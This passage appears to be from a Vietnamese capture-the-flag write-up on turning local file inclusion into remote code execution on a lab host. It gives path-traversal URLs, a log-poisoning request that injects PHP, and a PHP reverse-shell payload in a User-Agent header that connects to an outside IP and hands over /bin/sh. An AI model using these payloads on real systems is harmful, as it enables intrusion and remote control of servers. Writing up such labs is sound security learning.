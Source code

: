 ### Beyond LFI

Khi đạt được LFI, ta có thể từ đó thực hiện các kĩ thuật như log poisoning, LFI2RCE qua upload file, Proc Environ Injection, Chaining với SSRF, sửa file để thực hiện xss 

Nguồn:

https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1/

https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/

Như vậy, ta có thể tìm cách thực thi RCE nhờ những kĩ thuật trên.

Sau quá trình thử nghiệm, nhận thấy server dính lỗ hổng log poisoning và proc environ injection: toàn bộ log được ghi lại và có thể gọi nhờ LFI 
```
/?view=dog/../../../../proc/self/fd/7&ext=
```
```
/?view=dog/../../../..../../../var/log/apache2/access.log&ext=
```

Để kiểm chứng lỗ hổng, ta sẽ chèn code php vào request, sau đó payload này sẽ nằm trong log, gọi file log này để thực thi code. Câu lệnh được thực thi sẽ chứng tỏ khả năng RCE, ví dụ:

Request chèn payload vào log
```
GET /<?php phpinfo();?> HTTP/1.1 
Host: 10.10.51.59
```
Request đọc log
```
GET /?view=dogcat/../../../../proc/self/fd/7&ext= HTTP/1.1
Host: 10.10.51.59
```
Response trả về thành công nội dung của php info.

### Fake reverse shell

Để thực hiện rev shell, ta có thể gọi socket của php, hoặc sử dụng lệnh os, ví dụ:
```http
GET /?view=dog HTTP/1.1
Host: 10.10.114.233
User-Agent: <?php $sock=fsockopen('160.19.78.160',4444);$proc=proc_open('/bin/sh', array(0=>$sock,1=>$sock,2=>$sock),$pipes); ?>
```
Sau đó thực hiện LFI để thực thi code php:
```http
GET /?view=dogcat/../../../../proc/self/fd/7&ext= HTTP/1.1
Host: 10.10.51.59
```
Nhưng có vẻ như server không thể gọi ra ngoài nhờ socket của php:
```
fsockopen(): unable to connect to 160.19.78.160:4444 (Connection timed out) in /proc/self/fd/7
```

Nhận thấy rằng, sau khi thực hiện câu lệnh nslookup, cũng không nhận được kết quả. Như vậy có thể kết luận rằng server này không thể thực hiện kết nối ra ngoài để thực hiện rev shell.
